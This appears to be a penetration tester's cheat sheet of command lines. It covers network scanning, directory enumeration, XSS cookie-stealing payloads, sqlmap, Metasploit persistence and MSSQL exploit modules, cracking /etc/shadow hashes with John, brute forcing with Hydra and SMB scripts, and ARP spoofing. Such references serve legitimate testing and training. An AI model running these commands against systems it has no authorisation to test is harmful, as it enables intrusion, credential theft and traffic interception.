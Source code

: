 First rough idea:                 fping -a -g <IPRANGE> 2>/dev/null

Create IP List file:              nmap -sn <RANGE> | grep "Nmap scan" | cut -d " " -f 5 > <FILE>
Detailed scan of hosts:           nmap -sV -n -v -Pn -p- -T4 -iL <FILE> -A --open

Regular Directory enum:           gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u <URL>
Authenticated Directory enum:     dirb <URL> -u <USER>:<PASSWORD>

Vulnscan:                         nmap --script vuln --script-args=unsafe=1 -iL <FILE>

XSS:                              <script>alert('XSS')</script>
                                  <script>alert(document.cookie)</script>
                                  
SQLi:                             sqlmap -u <URL>
  
Win Persistence Metasploit:       exploit/windows/local/s4u_persistence
Generic Persistence Metasploit:   exploit/multi/local/persistence

Linux Hashes:                     /etc/passwd and /etc/shadow
                                  unshadow passwd shadow > hashes.txt
                                  
John Cracking Bruteforce:         john -incremental -users:<USERLIST> <FILE>
              Wordlist:           john -wordlist=<WORDLIST> <FILE>
              Mangling:           john -wordlist=<WORDLIST> -rules <FILE>
  
Bruteforcing with Hydra:          hydra <IP> ssh -L <USERLIST> -P <WORDLIST> -f -V
  
Copy files through SCP:           scp user@<IP>/<DIR>/<FILE> /<LOCAL>/<PATH>
  
SMB Share Basics:                 smbclient -L \\<IP> -N
                                  enum4linux -s /usr/share/enum4linux/share-list.txt <IP>
                                  /usr/share/doc/python3-impacket/examples/samrdump.py <IP>
                                  nmap --script=smb-enum-shares.nse <IP>
                                  nmap --script=smb-check-vulns.nse --script-args=unsafe=1 <IP>
  
SMB Bruteforcing:                 nmap --script=smb-brute.nse <IP>
  
ARPspoof with DSniff:             echo 1 > /proc/sys/net/ipv4/ip_forward
                                  arpspoof -i <INTERFACE> -t <TARGET> -r <HOST>
  
Python Shell Upgrade:             python -c 'import pty; pty.spawn("/bin/bash")'

Shell to Meterpreter:             post/multi/manage/shell_to_meterpreter

MS SQL Authenticated comp:        auxiliary/scanner/mssql/mssql_login
                                  auxiliary/admin/mssql/mssql_enum
                                  exploit/windows/mssql/mssql_payload
                                  
Adding Routes:                    ip route add <IP RANGE> via <GATEWAY IP>

